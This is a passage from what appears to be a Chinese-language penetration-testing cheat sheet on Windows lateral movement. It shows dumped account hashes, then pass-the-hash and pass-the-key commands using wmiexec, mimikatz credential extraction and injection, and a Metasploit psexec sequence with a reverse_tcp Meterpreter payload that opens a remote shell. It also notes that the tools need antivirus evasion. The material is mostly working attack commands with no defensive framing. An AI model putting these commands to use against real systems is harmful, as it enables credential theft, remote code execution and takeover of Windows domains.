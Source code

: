       RID  : 000001f5 (501)
      User : Guest
      
      RID  : 000001f7 (503)
      User : DefaultAccount
      
      RID  : 000003ee (1006)
      User : HomeGroupUser$
        Hash NTLM: 73233a63fa3dd495142e3a362a921221
      ```

  31. ##### pass the hash

      wmiexec普通权限即可
      https://github.com/maaaaz/impacket-examples-windows

      ```
      wmiexec -hashes 00000000000000000000000000000000:99b2b135c9e829367d9f07201b1007c3 TEST/test1@192.168.1.1 "whoami" //domain=TEST user=test1
      ```

      or 需要管理权限

      ```
      mimikatz "privilege::debug" "sekurlsa::pth /user:abc /domain:test.local /ntlm:hash" 
      ```

      or

      ```
      meterpreter > run post/windows/gather/hashdump
      Administrator:500:xxxxxxxxxxxx9a224a3b108f3fa6cb6d:xxxxf7eaee8fb117ad06bdd830b7586c:::
      meterpreter > background
      msf > use exploit/windows/smb/psexec
      msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
      msf exploit(psexec) > set SMBuser Administrator
      msf exploit(psexec) > set SMBPass xxxxxxxxxxxx9a224a3b108f3fa6cb6d:xxxxf7eaee8fb117ad06bdd830b7586c
      msf exploit(psexec) > exploit
      meterpreter > shell
      ```

      安装了KB2871997补丁或者系统版本大于等于windows server 2012时，内存不再明文保存密码，1,改注册表后，注销再次登录，可以获取使用，2. schtasks等执行命令无法用管理员权限，用ptk，ptt。例外，打补丁后administrato（SID-500）依旧可以pth

      https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Pass-The-Hash%E7%9A%84%E5%AE%9E%E7%8E%B0/

  32. ##### pass the key

      需要免杀：

      ```shell
      mimikatz "privilege::debug" "sekurlsa::ekeys"  获取用户的aes key
      mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes256:asdq379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c"  注入aes key
      dir \\计算机名
      ```
